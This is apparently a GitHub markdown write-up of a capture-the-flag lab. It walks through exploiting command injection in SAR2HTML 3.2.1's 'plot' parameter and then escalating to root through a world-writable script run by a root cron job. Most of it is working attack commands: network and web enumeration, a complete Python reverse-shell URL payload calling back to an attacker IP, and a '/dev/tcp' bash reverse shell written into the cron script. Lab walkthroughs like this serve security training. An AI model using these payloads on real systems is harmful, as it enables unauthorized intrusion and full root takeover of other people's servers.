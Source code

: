 # 🚩 SAR2HTML Exploitation and Privilege Escalation

## 🎯 Objective

Gain **remote shell access** to a vulnerable SAR2HTML web application, and then **escalate privileges to root** by exploiting a writable shell script executed via a cron job.

---

## 🔍 Step 1: Network Discovery

### 🔹 Discover Target IP

```bash
netdiscover -r 10.0.2.0/24
```

- Found target machine at: `10.0.2.6`

---

## 🔎 Step 2: Port Scanning

### 🔹 Run Nmap for Open Ports & Service Detection

```bash
nmap -A 10.0.2.6
```

- Found open port: **80 (HTTP)**

---

## 🌐 Step 3: Web Enumeration

### 🔹 Use Gobuster to Find Hidden Directories

```bash
gobuster dir -u http://10.0.2.6 -w /usr/share/wordlists/dirb/common.txt
```

- Found: `/robots.txt`

### 🔹 robots.txt Content

```text
Disallow: /sar2HTML/
```

---

## 📁 Step 4: SAR2HTML Enumeration

- URL: `http://10.0.2.6/sar2HTML/`
- Detected **SAR2HTML v3.2.1**
- Vulnerable to **Remote Code Execution** via `plot` parameter

---

## 🧪 Step 5: Confirm Remote Code Execution

### Test RCE:

```http
http://10.0.2.6/sar2HTML/index.php?plot=;whoami
```

- Response: `www-data` (confirms RCE)

---

## 🎯 Step 6: Get a Reverse Shell

[Parallel Way to Gain Access](./parallel-sar2html-access-metasploit.md)



### Start Listener on Attacker Machine:

```bash
nc -lvnp 4444
```

### Exploit with Python3 Reverse Shell:

```http
http://10.0.2.6/sar2HTML/index.php?plot=;python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.0.2.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

> Replace `10.0.2.5` with your Kali IP. Use URL encoding if needed.

---

## 📦 Step 7: Post-Exploitation Enumeration

### Check Kernel Version

```bash
uname -r
```

- `5.0.0-23-generic`

### Find SUID Binaries

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

(No unusual binaries found for direct root exploit.)

---

## ⏱️ Step 8: Privilege Escalation via Cron Job

### Check Crontab

```bash
cat /etc/crontab
```

- Found interesting line:

```cron
*/5 * * * * root cd /var/www/html/ && sudo ./finally.sh
```

### View Script Contents

```bash
cat /var/www/html/finally.sh
```

```bash
#!/bin/sh
./write.sh
```

### Check Permissions on write.sh

```bash
ls -l /var/www/html/write.sh
```

- Result:

```bash
-rwxrwxrwx 1 www-data www-data 30 Oct 21  2019 write.sh
```

✅ Writable by `www-data`, and **executed by root via cron** → escalation vector.

---

## 🧨 Step 9: Modify Script to Spawn Root Shell

### Replace `write.sh` with Reverse Shell Payload:

On attack box, start listener:

```bash
nc -lvnp 1234
```

On target (remote shell):

```bash
echo '#!/bin/bash' > /var/www/html/write.sh
echo 'bash -i >& /dev/tcp/192.168.1.107/1234 0>&1' >> /var/www/html/write.sh
chmod +x /var/www/html/write.sh
```

Wait for cron to execute.

### ✅ Root Access Achieved

- Listener receives connection as `root`.

---

## ✅ Summary

| Step | Action |
|------|--------|
| Web RCE | Exploit SAR2HTML via `plot` param |
| Initial Shell | Python3 reverse shell |
| PrivEsc | Overwrite cron-executed `write.sh` |
| Final Shell | Got root reverse shell via cron |

---

## 🔑 Key Techniques Used

- Web Enumeration (Gobuster, robots.txt)
- RCE via unsanitized GET param
- Reverse Shell via Python
- Cron job privilege escalation
- Shell replacement using writable scripts

---

## 🧰 Tools Used

- `netdiscover`
- `nmap`
- `gobuster`
- `nc` (Netcat)
- Bash scripting
- Python3 reverse shell

---

## 📝 Notes

- If `bash -i >& /dev/tcp/...` fails, use full Python shell or encode URL
- Always check crontabs and SUID files during enumeration
- Try `linpeas.sh` or `pspy` for automated detection in real CTFs

---
